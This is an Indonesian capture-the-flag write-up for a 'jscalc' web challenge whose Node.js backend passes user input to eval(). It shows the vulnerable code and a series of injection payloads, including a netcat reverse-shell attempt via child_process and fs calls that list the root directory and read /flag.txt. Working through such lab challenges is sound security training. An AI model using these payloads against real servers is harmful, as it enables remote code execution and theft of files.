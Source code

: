 # jscalc

Target	: 167.99.85.216
Port	: 30174

Jika kita buka http://Target:Port, maka akan muncul halaman web untuk kalkulator dari javascript dengan menggunakan `eval()` function dengan title "A super secure Javascript calculator with the help of **eval()** 🤮", dan apakah ini benar-benar secure???????. `eval()` merupakan salah satu built-in function dalam JavaScript yang digunakan untuk mengeksekusi string sebagai kode JavaScript. Function ini mengambil string sebagai argumen dan mengeksekusinya sebagai kode JavaScript. Fungsi ini dapat digunakan untuk mengeksekusi dynamic code atau expression yang dibangun secara dinamis selama waktu eksekusi program. Jika kita lihat pada source codenya, lebih lengkapnya adalah seperti berikut
`web_jscalc/challenge/routes/index.js`
```js
const path       = require('path');
const express    = require('express');
const router     = express.Router();
const Calculator = require('../helpers/calculatorHelper');

const response = data => ({ message: data });

router.get('/', (req, res) => {
        return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/calculate', (req, res) => {
        let { formula } = req.body;

        if (formula) {
                result = Calculator.calculate(formula);
                return res.send(response(result));
        }

        return res.send(response('Missing parameters'));
})

module.exports = router;
```
`web_jscalc/challenge/helpers/calculatorHelper.js`
```js
module.exports = {
    calculate(formula) {
        try {
            return eval(`(function() { return ${ formula } ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
}
...
```

Jadi dari input yang kita masukkan di `index.html`, nantinya akan diproses ke api di `/api/calculate` dengan menjalankan function calculate yang ada di file `calculatorHelper.js` dengan value dari `formula` adalah input dari kita. Didalam file tersebut, akan melakukan blok try-catch, dimana dalam blok try akan melakukan `eval()` function, yang mana akan mengeksekusi string sebagai js code. Dalam hal ini, sebuah fungsi IIFE (Immediately Invoked Function Expression) digunakan untuk mengelilingi ekspresi matematika yang diteruskan. Ekspresi ini kemudian dijalankan dan hasilnya dikembalikan. Jika terjadi error, akan masuk ke blok catch, dan akan mengembalikan hasil string 'Something went wrong!'. Disini saya mencoba input `require("child_process").exec("nc -e bash <ip-local> <port>")`, namun hasilnya adalah `[object Object]`. Setelah melakukan sedikit searching, output tersebut diberikan karena kita menggunakan `exec` method dari `child_process` module, yang mana akan memberikan output ChildProcess object daripada output aslinya. Kita dapat coba untuk menggunakan `fs` module untuk berinteraksi dengan file system. Jadi akan seperti berikut
```js
require('fs').readdirSync('/').toString()
```
Input tersebut akan melakukan hal yang sama seperti jika kita melakukan `ls /`, dan kita akan mendapatkan hasil
```html
messages:"app,bin,dev,etc,flag.txt,home,lib,media,mnt,opt,proc,root,run,sbin,srv,sys,tmp,usr,var"
```
Ternyata berhasil, selain itu kita juga mendapat informasi bahwa `flag.txt` berada di `/`, maka kita dapat membaca isinya dengan cara
```js
require('fs').readFileSync('/flag.txt').toString()
```
dan kita akan mendapat flag.